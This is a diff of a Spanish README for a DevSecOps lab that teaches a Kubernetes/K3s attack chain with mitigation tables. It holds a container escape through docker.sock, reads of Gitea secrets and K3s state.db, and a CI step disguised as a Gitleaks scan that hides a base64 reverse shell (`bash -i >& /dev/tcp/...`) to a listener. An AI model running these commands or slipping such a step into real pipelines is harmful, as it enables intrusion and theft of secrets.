

Before and after one commit to danipalomo/devsecops-lab, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 87% size. GitHub-like rendering; folded sections open; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -270,37 +254,32 @@ s2 = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM); s2.connect("/var/run/doc
 s2.sendall(b"POST /containers/escape1/start HTTP/1.1\r\nHost: localhost\r\n\r\n")
 ```
 
-<details>
-<summary>Por qué el payload es así (decisiones de diseño, no casualidad)</summary>
+Varios campos del payload resuelven fallos que no producen ningún mensaje de error, solo la ausencia del resultado esperado:
 
-- **`alpine` y no `mysql:5.7`** — la imagen de MySQL no trae `mount`/`chroot`/`nsenter`; Alpine sí.
-- **`NetworkMode: host`** — sin esto el contenedor efímero cae en la bridge por defecto (`172.17.0.0/16`) y la reverse shell hacia `192.168.252.20` muere en silencio por el NAT. Con `host`, comparte la pila de red sin NAT.
-- **`Binds: ["/:/mnt/host"]` y no `mount --bind`** — `Binds` lo resuelve el *daemon* antes de arrancar; hacerlo a mano dentro del comando genera conflictos de punto de montaje y exige `mount` en la imagen.
-- **Base64** — evita el infierno de quoting anidado que hace el script frágil.
-- **Sin f-strings** — el contenedor de MySQL corre Python 2. Concatenación con `+`.
+- **`alpine` en lugar de `mysql:5.7`.** La imagen de MySQL es mínima y no incluye `mount`, `chroot` ni `nsenter`; Alpine sí. Se puede comprobar qué binarios trae una imagen arrancando un contenedor efímero con `which mount chroot nsenter` como comando y leyendo sus logs.
+- **`NetworkMode: host`.** Sin este parámetro, el contenedor efímero queda en la bridge por defecto (`172.17.0.0/16`) y la reverse shell hacia `192.168.252.20` sale por el NAT de Docker, sin alcanzar el destino y sin producir error. Con `host`, el contenedor comparte la pila de red del nodo, sin NAT, y la conexión saliente funciona.
+- **`Binds: ["/:/mnt/host"]` en lugar de `mount --bind`.** El daemon resuelve `Binds` antes de arrancar el contenedor; hacerlo manualmente dentro del comando genera conflictos de punto de montaje y requiere `mount` en la imagen.
+- **Base64.** Evita el quoting anidado entre PHP, el JSON y la shell del contenedor, que rompía el script de forma inconsistente.
+- **Sin f-strings.** El contenedor de MySQL ejecuta Python 2; la concatenación de cadenas se hace con `+`.
 
-</details>
+Cuando la conexión llega al `nc -lvnp 5555`, la shell es root en el host, no en un contenedor: el `chroot` al filesystem del host montado hace que el entorno sea el del anfitrión.
 
-Si la conexión llega al `nc -lvnp 5555`, la shell es **root en el host real**, no en un contenedor: el `chroot` al filesystem del host montado convierte el entorno en el del anfitrión.
-
-#### Ficha de riesgo — MySQL / Escape
+#### Ficha de riesgo — Escape al host
 
 | Táctica | Técnica | ID | Mitigación |
 |---|---|---|---|
-| Execution | Exploitation for Client Execution (UDF Abuse) | T1203 | Restringir `FILE` priv; `secure_file_priv` acotado |
-| Privilege Escalation | Escape to Host | T1611 | Nunca montar `docker.sock` en pods; rootless / gVisor |
-| Privilege Escalation | Container Privileged | T1548 | Prohibir `privileged`/`SYS_ADMIN` vía PSA / OPA |
+| Privilege Escalation | Escape to Host | T1611 | No montar `docker.sock` en pods; runtime rootless / gVisor |
+| Privilege Escalation | Abuse Elevation Control: Container Privileged | T1548 | Prohibir `privileged`/`SYS_ADMIN` mediante PSA / OPA |
 | Lateral Movement | Container Administration Command | T1021.007 | TLS mutuo obligatorio en el Docker Engine API |
 
-> ### 💡 Insight — Capa 2
-> Mínimo privilegio no es una regla que se aplica: es **una pregunta que se hace**. *¿Qué razón legítima tiene un servicio de base de datos para hablar con el daemon de Docker?* Ninguna. Cada permiso que no responde a una necesidad concreta es una frontera de confianza regalada — y el aislamiento del contenedor era una promesa, no un muro. `docker.sock` lo volvió decorativo.
+> **Nota.** Un contenedor de base de datos no requiere acceso al daemon de Docker. Montar `/var/run/docker.sock` dentro del pod equivale a conceder control del host, con independencia del resto de restricciones del contenedor. El montaje procedía de una configuración para builds locales y no se retiró al desplegar en el clúster; en los manifiestos el contenedor sigue pareciendo aislado.
 
 </details>
 
 <details>
-<summary><strong>Capa 3 · CI/CD — Gitea / Act-Runner</strong></summary>
+<summary><strong>Capa 4 · CI/CD — Gitea / Act-Runner</strong></summary>
 
-Con root en el host, sus datos —persistidos vía `hostPath`— son directamente legibles:
+Con root en el host, los datos de Gitea (persistidos mediante `hostPath`) son legibles directamente:
 
 ```bash
 cat /var/lib/gitea-data/app.ini
@@ -309,9 +288,9 @@ cat /var/lib/gitea-data/app.ini
 # [oauth2]   JWT_SECRET = eyJhbGci...
 ```
 
-`SECRET_KEY` cifra las cookies de sesión, `INTERNAL_TOKEN` autentica la comunicación interna, `JWT_SECRET` firma los tokens OAuth2. Con cualquiera en texto plano, un atacante **forja sesiones o tokens válidos sin credenciales de ningún usuario**. El manifiesto del runner, además, expone su token de registro en el propio comando de arranque.
+`SECRET_KEY` cifra las cookies de sesión, `INTERNAL_TOKEN` autentica la comunicación interna y `JWT_SECRET` firma los tokens OAuth2. Con cualquiera de los tres en texto plano es posible forjar sesiones o tokens válidos sin credenciales de usuario. Además, el manifiesto del runner expone su token de registro en el comando de arranque.
 
-**Poisoned Pipeline Execution (PPE).** No es "modificar un YAML": es que el runner ejecuta código arbitrario en el **mismo contexto** que los jobs legítimos —con `docker.sock` del host y `privileged: true`—. El vector se disfraza de paso inofensivo:
+**Poisoned Pipeline Execution (PPE).** El runner ejecuta los jobs en el mismo contexto que los legítimos (con `docker.sock` del host y `privileged: true`), por lo que basta con introducir una línea en un workflow. El paso se presenta como una tarea habitual:
 
 ```yaml
 - name: Gitleaks Scan
@@ -321,7 +300,7 @@ cat /var/lib/gitea-data/app.ini
     gitleaks detect --source="."   # → decodificado: bash -i >& /dev/tcp/192.168.252.20/4488 0>&1
 ```
 
-El base64 + `continue-on-error` no es casualidad: una revisión superficial de PR ve "escaneo de secretos", no una reverse shell, y el pipeline se reporta verde.
+La combinación de `base64` y `continue-on-error` tiene un efecto concreto: en una revisión de PR superficial el paso aparece como un escaneo de secretos, el pipeline se reporta correctamente y la reverse shell arranca en segundo plano.
 
 #### Ficha de riesgo — CI/CD
 
@@ -367,11 +345,11 @@ spec:
 </p>
 
 <!-- GUION · 04-nsenter.gif -------------------------------------------------
-     El pod `pwned-node` aplicándose; flecha desde el contenedor al proceso
+     El pod `node-access-pod` aplicándose; flecha desde el contenedor al proceso
      PID 1 del host; el prompt se convierte en root del nodo. ~10 s.
 ------------------------------------------------------------------------------>
 
-**El hallazgo de `state.db` (Kine).** K3s no usa `etcd` por defecto, sino **Kine** sobre SQLite en disco. Los Secrets están ahí en base64 y **sin cifrado en reposo** salvo que se active `--secrets-encryption`:
+Un segundo hallazgo es `state.db`. K3s no usa `etcd` por defecto, sino Kine sobre SQLite, en disco. Los Secrets están ahí en base64 y sin cifrado en reposo, salvo que se haya activado `--secrets-encryption`, que no está habilitado por defecto.
 
 ```bash
 sqlite3 /var/lib/rancher/k3s/server/db/state.db "SELECT name,value FROM kine WHERE name LIKE '%secrets%';"
````
Also changed, not shown: other parts of README.md (+109 -131 lines).
